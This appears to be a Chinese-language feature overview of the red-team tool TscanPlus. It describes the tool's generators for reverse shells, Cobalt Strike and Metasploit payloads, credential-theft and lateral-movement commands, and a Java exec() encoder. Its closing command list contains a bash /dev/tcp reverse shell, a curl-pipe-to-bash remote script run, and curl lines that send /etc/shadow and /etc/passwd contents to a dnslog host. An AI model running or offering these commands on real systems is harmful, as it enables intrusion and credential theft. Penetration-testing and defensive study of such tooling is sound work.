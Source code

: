 1、对返回同样长度、同样状态码的页面，出现5次以上不再显示  
  
2、增加关键字过滤、返回长度过滤、自定义后缀等功能。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXrFcGYWDxQLSwIOa9S3iaEOggFEq3EBibvSjA7ArQcJ9AKIxxKPy88l4Carng7yOmVHBFjSdOoPI7g/640?wx_fmt=png&from=appmsg "")  
  
12、上线反弹  
  
TscanPlus内置各类反弹shell命令85条、MSF生成命令21条、CS免杀上线命令等，可根据shell类型、操作系统类型、监听类型自动生成代码。  
##### 【反弹shell】  
  
可设置IP/PORT、listener类型、shell类型、是否编码，选择你想要的命令后，即可生成响应代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXrFcGYWDxQLSwIOa9S3iaEOalK4Hz9cmic6W9NcibfP53x8W7kUaGv5yAYzsrr06djF37ODvXlPxIaA/640?wx_fmt=png&from=appmsg "")  
  
**【CS上线】**  
  
CS上线配置CS Payload地址后，即可生成相应代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXrFcGYWDxQLSwIOa9S3iaEOPZlQXqr9LGbH7Tu53CupsibxYAAckbIuBOvvVicN5fuRg9MnQF4XWjHw/640?wx_fmt=png&from=appmsg "")  
  
13、红队命令  
  
TscanPlus内置常用红队命令，包括Win内网(凭证获取、权限维持、横向移动)命令26类、Linux内网命令18类、下载命令31条。  
##### 【红队命令】  
  
Win内网(凭证获取、权限维持、横向移动)命令26类、Linux内网命令18类。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXrFcGYWDxQLSwIOa9S3iaEOBFqJqZwVmYT3UFicWbiaA4ic8yvGWbUCJJgjXgKAIpe7p4EPBeyMr6f8Q/640?wx_fmt=png&from=appmsg "")  
  
**【下载命令】**  
  
内置常见下载命令31条，基本能覆盖内网渗透能用到的下载方法。  
  
配置URL地址和目标文件名后，可自动生成相应代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXrFcGYWDxQLSwIOa9S3iaEOQEiaicEuJFzrBKawuniaDslxuuKiaR5xun2pTcUPx56Z7w8VibFbM4pJiaicg/640?wx_fmt=png&from=appmsg "")  
  
**【java编码】**  
  
有时，通过 Runtime.getRuntime().exec() 执行命令有效负载会导致失败。使用 WebShell，反序列化利用或通过其他媒介时，可能会发生这种情况。  
  
有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义。例如，ls > dir_listing在shell中执行应该将当前目录的列表输出到名为的文件中dir_listing。但是在exec()函数的上下文中，该命令将被解释为获取>和dir_listing目录的列表。  
  
其他时候，其中包含空格的参数会被StringTokenizer类破坏，该类将空格分割为命令字符串。那样的东西ls "My Directory"会被解释为ls '"My' 'Directory"'。  
  
在Base64编码的帮助下，java命令编码转换器可以帮助减少这些问题。它可以通过调用Bash或PowerShell再次使管道和重定向更好，并且还确保参数中没有空格。  
  
常用命令清单  
```
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1
ping `whoami`.key.dnslog.cn
curl http://www.google.com/bash.txt|bash
curl http://key.dnslog.cn/?r=`whoami`
curl http://key.dnslog.cn/?r=`cat /etc/shadow|base64`
curl http://key.dnslog.cn/?r=$(cat /etc/passwd|base64|tr '\n' '-')
curl http://www.google.com/key.txt
curl http://www.google.com/key.txt -O
curl http://www.google.com/key.txt -o key.txt

```  
  